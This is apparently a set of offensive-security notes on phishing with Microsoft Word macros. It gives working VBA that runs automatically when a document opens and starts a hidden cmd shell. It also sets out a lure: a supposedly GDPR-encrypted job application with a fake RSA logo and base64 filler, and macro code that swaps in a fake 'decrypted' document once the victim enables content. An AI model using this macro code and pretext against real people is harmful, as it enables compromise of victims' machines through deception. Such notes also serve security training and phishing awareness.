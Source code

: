 #### Microsoft Word Macros
- In Word, you can automate frequently used tasks by creating and running macros. A macro is **a series of commands and instructions** that you group together as a single command to accomplish a task automatically.
- This can be used by hackers in multiple ways.


#### Defining a variable in macro
Here's how we can define a variable in VBA:
```VBA
Dim myString As String
Dim myLong As Long
Dim myPointer As LongPtr
```
- String means unicode
- Long is for 64-bit integer
- Longptr is for a memory pointer


#### Creating a hidden cmd shell in macro
We can create a macro to open a hidden cmd shell with the following code:
```VBA
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    Shell str, vbHide
End Sub
```

^494c27

- Both Document_Open() and AutoOpen() functions are being used for redundancy.
- We can also place {CreateObject("Wscript.Shell").Run str, 0} in place of [Shell str, vbHide](Microsoft%20Office%20Phishing.md#^494c27) as an alternative to launch the shell

#### Appearances 
It is necessary for our microsoft macro shell to look legitimate to trick the person into using it, Following points should be taken into consideration while creating a word macro:
- A phishing attack exploits a victim's behavior, leveraging their curiosity or fear to encourage them to launch our payload despite their better judgement.
- If the document is poorly constructed, or seems like spam, they may alert support personnel, which could compromise our attack.

#### Setup and Execution
Hypothetically, we'll propose that the attached job application document is encrypted to protect its content in accordance with _GDPR_ regulations. If the victim does not have a strong technical background, these added terms and "tech magic" can make the document seem more legitimate. In this case, we'll simply add some random base64-encoded text and a note about GDPR compliance
To improve the perception of legitimacy, we can also add an RSA logo
When the victim enables our content, they will expect to see our "decrypted" content

We first create a fake decrypted document and then save it to autotext feature of word:
_Insert_ > _Quick Parts_ > _AutoTexts_ and _Save Selection to AutoText Gallery_

Now, we can proceed to create a fake decryption process

VBA code to setup a fake decryption process:
```VBA
Sub Document_Open()
    SubstitutePage
End Sub

Sub AutoOpen()
    SubstitutePage
End Sub

Sub SubstitutePage()
    ActiveDocument.Content.Select
    Selection.Delete
	ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert
	Where:=Selection.Range, RichText:=True
End Sub
```



